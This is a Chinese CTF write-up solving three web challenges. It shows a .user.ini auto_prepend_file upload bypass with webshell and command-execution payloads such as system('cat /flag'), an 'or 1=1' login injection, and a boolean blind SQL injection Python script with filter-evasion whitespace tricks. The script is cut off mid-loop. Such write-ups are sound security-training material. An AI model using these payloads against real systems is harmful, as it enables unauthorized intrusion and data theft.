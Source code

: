 **可以借助.user.ini轻松让所有php文件都“自动”包含某个文件，而这个文件可以是一个正常php文件，也可以是一个包含一句话的webshell。在.user.ini写入代码如下，上传**
```javascript
GIF89a
auto_prepend_file=a.jpg
```
这里注意由于upload/文件夹下有index.php，会包含a.jpg，所以成功了
![](https://img-blog.csdnimg.cn/20200314150824850.png)
接下来蚁剑连接即可得到flag
![](https://img-blog.csdnimg.cn/20200314151020368.png)
### 方法二：直接执行命令查看flag
假若一句话木马被禁了，那么我们还可以命令执行得到flag
`GIF89a`
`<script language="php">var_dump(scandir("/"));</script>`
![](https://img-blog.csdnimg.cn/20200314152738446.png)
在根目录发现flag，将执行语句改为
`<script language="php">var_dump(file_get_contents("/flag"));</script>`
或
`<script language="php">system("cat /flag");</script>`
![](https://img-blog.csdnimg.cn/20200314153703673.png)
不好的地方就是要重复上传a.jpg可能会出现问题
参考：[[SUCTF 2019]CheckIn](https://www.cnblogs.com/wangtanzhi/p/11862682.html)

## [极客大挑战 2019]EasySQL
送分？？？？？？？构造万能密码登录，成功得到flag
`admin' or 1=1#`
![](https://img-blog.csdnimg.cn/20200315112904981.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
![](https://img-blog.csdnimg.cn/20200315113016754.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## [CISCN2019 华北赛区 Day2 Web1]Hack World
![](https://img-blog.csdnimg.cn/20200315120658691.png)
sql注入的题目，有过滤，然后发现过滤了`union、and、or、空格`和`/**/`，无从下手，查看了wp，发现空格其实还有很多解法的
空格可以用：`%09 %0a %0b %0c %0d /**/ /*!*/`或者直接tab
这里用模糊测试得出
![](https://img-blog.csdnimg.cn/20200315120329691.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
![](https://img-blog.csdnimg.cn/20200315120342589.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
mid，substr都没被过滤，考虑布尔盲注，用if函数判断截取出来的内容是什么，这里需要穷举。如果判断成功，返回1，否则返回2。由于题目告诉我们表和字段都为flag，可直接爆破flag的值
参考师傅的二分法脚本如下：
```python
import requests
import time
#url是随时更新的，具体的以做题时候的为准
url = 'http://7558e160-ede8-4f30-a7da-6b5727376b56.node3.buuoj.cn/index.php'
data = {"id":""}
flag = 'flag{'

i = 6
while True:
#从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin+end)//2
    while begin<end:
        print(begin,tmp,end)
        time.sleep(1)
        data["id"] = "if(ascii(substr((select	flag	from	flag),{},1))>{},1,2)".format(i,tmp)
        r = requests.post(url,data=data)
        if 'Hello' in r.text:
```